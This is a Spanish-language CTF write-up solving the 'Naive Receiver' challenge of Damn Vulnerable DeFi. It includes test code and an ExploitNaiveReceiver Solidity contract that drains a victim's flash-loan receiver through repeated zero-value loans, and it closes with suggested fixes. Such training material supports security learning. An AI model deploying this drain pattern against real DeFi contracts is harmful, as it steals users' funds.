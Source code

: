 ```yaml
---
title: Solucion al challenge .#2 Naive Receiver
date: 2022-01-3
excerpt: Hay una lending pool que ofrece flash loans de ethers, tiene 1000 ethers. Tambien vez que un usuario deployeo un contrato con un balance de 10 ETH que es capaz de interactuar con el lending pool y realizar flash loans. Tu objetivo es disminuir/drenar el balance de este contrato. Hacerlo en una sola transaccion es un plus.
---
```


Hay una lending pool que ofrece flash loans de ethers, tiene 1000 ethers.

Tambien vez que un usuario deployeo un contrato con un balance de 10 ETH que es capaz de interactuar con el lending pool y realizar flash loans.

Tu objetivo es disminuir/drenar el balance de este contrato. Hacerlo en una sola transaccion es un plus.

## Objetivo

El objetivo es hacer que el contrato del usuario que usa el pool quede en 0. El truco es bastante sencillo, basta con pedir un prestamo de 0 ethers y que lo reciba el contrato del usuario [FlashLoanReceiver.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/naive-receiver/FlashLoanReceiver.sol)

## Exploit

Bastante sencillo, por cada prestamo que se pide 0 ethers, pero el contrato devuelve 0 + 1ether que es el fee.
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */   
        for(let i = 0; i < 10; i+=1) {
            await this.pool.flashLoan(this.receiver.address, ethers.utils.parseEther('0'));
        }
    });
```

Un plus es realizar el drenado en una sola transaccion, en el caso del for se realizan 10 transacciones, para esto solo basta armar contrato que use el pool pidiendo prestamos de 0 en nombre del contrato del usuario

*ExploiteNaiveReceiver.sol*
```js
pragma solidity ^0.8.0;

interface INaiveLenderPool {
  function flashLoan(address borrower, uint256 borrowAmount) external;
}

contract ExploitNaiveReceiver {
  function attack(address pool, address receiverVictim, uint256 n) external {
    for(uint256 i = 0; i < n; i++) {
      INaiveLenderPool(pool).flashLoan(receiverVictim, 0);
    }
  }
}```

```js
    it('Exploit', async function () {
      const ExploitNaiveReceiver = await ethers.getContractFactory('ExploitNaiveReceiver', attacker);
      const exploitNaiveReceiver = await ExploitNaiveReceiver.deploy();
      await exploitNaiveReceiver.attack(this.pool.address, this.receiver.address, "10");
    })
```

## Soluciones

Una posible solucion seria que el contrato del usuario _FlashLoanReceiver.sol_ cheque que esta ganado ether en la operacion, y en caso de perdida que haga un revert. Aunque es posible que el usuario lo haya diseñado asi por un motivo y no le importe perder ether, en ese caso otra alternativa seria que haga un cheque para saber que el que origino la transaccion sea el usuario que creo el contrato (usando tx.origin). Aunque esto tambien es considerado peligroso y vulnerable a un phising.

Una ultima altenativa seria mejorar un poco el contrato _FlashLoanReceiver.sol_, y usar una funcion que reciba ether del usuario y que solo ese usuario pueda realizar esos prestamos (tambien haciendo uso del tx.origin que no es considerado como una practica tan segura)